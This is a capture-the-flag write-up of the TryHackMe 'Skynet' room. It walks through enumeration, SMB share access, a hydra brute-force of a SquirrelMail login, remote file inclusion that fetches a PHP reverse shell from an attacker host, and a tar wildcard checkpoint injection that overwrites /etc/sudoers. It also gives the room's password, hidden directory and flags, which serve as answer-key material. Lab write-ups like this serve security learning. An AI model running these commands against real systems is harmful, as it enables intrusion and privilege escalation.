---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
  - brute-force
  - rfi
  - script-misconfiguration
---

# Skynet


**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [Skynet](https://tryhackme.com/room/skynet)  

## Description
"A vulnerable Terminator themed Linux machine."

## Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:  
`ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`  
This revealed the following open ports:  

* 22  
* 80  
* 110  
* 139  
* 143  
* 445  

I ran a full `nmap` scan to query the services for version information, as well as querying the target system for OS information with `nmap -p$ports -A -T4 TARGET_IP_ADDRESS`, which revealed the following:  
  
  
I used my go-to `ffuf` command to enumerate the website (`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`) as a quick directory discovery, whilst also running my standard `gobuster` command (`gobuster dir -u TARGET_IP_ADDRESS -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt`) to probe a bit more thoroughly, looking for files as well.  
Whilst the scans were running, I navigated to the web page in a browser to find what looked like a search engine but it wasn't functional. There were no `robots.txt` or `sitemap.xml` files, and there was nothing interesting in the source code. The `ffuf` scan did reveal a couple of interesting directories:  
  
Of the discovered directories, the only one that was accessible was `/squirrelmail` but I had no credentials (and there was nothing interesting in the source code), so with nothing additional found in the `gobuster` scan, I moved on to enumerating SMB.
I used `smbclient` to enumerate the available shares:  
`smbclient -N -L \\\\TARGET_IP_ADDRESS`  
  
The only one of the shares I was able to enumerate further was the "anonymous" share:  
  
I downloaded the only files that had a file size. The `attention.txt` file contained a notice to employees to tell them of a forced password change, and contained a username that matched one of the SMB shares so I noted this as a potential username. On the surface, the contents of the `log1.txt` file didn't have anything of use - but the lines of text did look like possible passwords or password attempts (as this was named to appear as a log file) so I saved them into a `password.lst` file for use later.
As a final enumeration act, I used `searchsploit` to see if there were any vulnerabilities for the versions revealed in the `nmap` scan but there were no useful results.

## Foothold
Knowing that there was a login portal on the `/squirrelmail` page, I opened Burp Suite to capture the POST request field names for use with `hydra` (the username came from the SMB enumeration):  
  
`hydra -l milesdyson -P password.lst TARGET_IP_ADDRESS http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."`  

??? success "What is Miles password for his emails?"
	cyborg007haloterminator
I logged into the `/squirrelmail` portal with the discovered credentials and found 3 emails. The oldest one appeared to contain some garbled communication attempt; the second contents were in binary (which translated to the same garbled communication from the oldest message); the third contained something actually useful:  
  
Using the password found in the email and the `milesdyson` user, I attempted to connect to the `milesdyson` SMB share discovered during enumeration:  
  
Downloading the only file that doesn't appear to be directly related to the robotics industry provides a hidden web directory:  
  
??? success "What is the hidden directory?"
	/45kra24zxs28v3yd
I repeated the `ffuf` and `gobuster` scans using the newly discovered hidden directory as the base directory. Whilst I waited for the scans to finish, I navigated directly to it in a web browser but found nothing of interest. The `ffuf` scan did reveal another page to enumerate further:  
  
Navigating to this new page revealed a CMS login page, and whilst I had no credentials to use, `searchsploit` provided a very helpful result:  
  
??? success "What is the vulnerability called when you can include a remote file for malicious purposes?"
	Remote file inclusion
Looking through the code associated with the result suggested that it might be possible to establish a reverse shell using an RFI in the `alerts/alertConfigField.php` endpoint. I hosted a copy of the [pentestmonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (updating the IP variable first) in a Python web server (with `python3 -m http.server 8000`), opened a `netcat` listener (with `nc -lvnp 1234`) and navigated to "http://TARGET_IP_ADDRESS/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ATTACKER_IP_ADDRESS/SHELL_NAME.php" in the web browser, resulting in an established connection to my `netcat` listener.
After stabilising my shell (`python3 -c 'import pty; pty.spawn("/bin/bash")'`), finding and reading the contents of the user flag was trivial:  

??? success "What is the user flag?"
	7ce5c2109a40f958099283600a9ae807

## Privilege Escalation
I started with the same usual low-hanging fruits I always do - checking `sudo` rights, searching for SUID/SGID files, and checking the contents of `/etc/crontab` but there were no leads there. I moved on to checking the home directory for the `milesdyson` user and found an interesting looking `backups` folder, with a script file that contained some potentially useful information:  
  
At first I wasn't sure about how I might be able to leverage this (clearly non-standard) script but after a bit of Googling, I found [this](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa) post about Linux privilege escalation with `tar` wildcards, which describes the vulnerability really clearly. Essentially:  

* Using the `*` wildcard with the `tar` command will instruct the programme to compress all the contents of the current working directory.  
* `tar` will interpret any files with names that match switches for the programme as those switches, not as files.  
* Other shell commands can be executed with ` tar` using the `--checkpoint` and `--checkpoint-action` switches in combination.  
* When `tar` is being executed as `root` with a wildcard, any commands executed with the `tar` + `--checkpoint` + `--checkpoint-action` combination are executed as root.  
Following the article through, I executed the following commands to take advantage of the misconfiguration by giving my `www-data` user the ability to execute any command as `sudo` without the need for a password:  
```
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
touch privesc.sh
echo "echo 'www-data ALL=(root) NOPASSWD: ALL' > /etc/sudoers" > privesc.sh
```
After this, I needed to wait for the `backup.sh` script to run, but I didn't have long to wait before I was able to execute the following, getting the root flag:  
```
sudo bash
cat /root/root.txt
```
??? success "What is the root flag?"
	3f0372db24753accc7179a282cd6a949

**Tools Used**  
`Burp Suite` `hydra` `searchsploit` `python` `nc` `tar`

**Date completed:** 11/04/26  
**Date published:** 11/04/26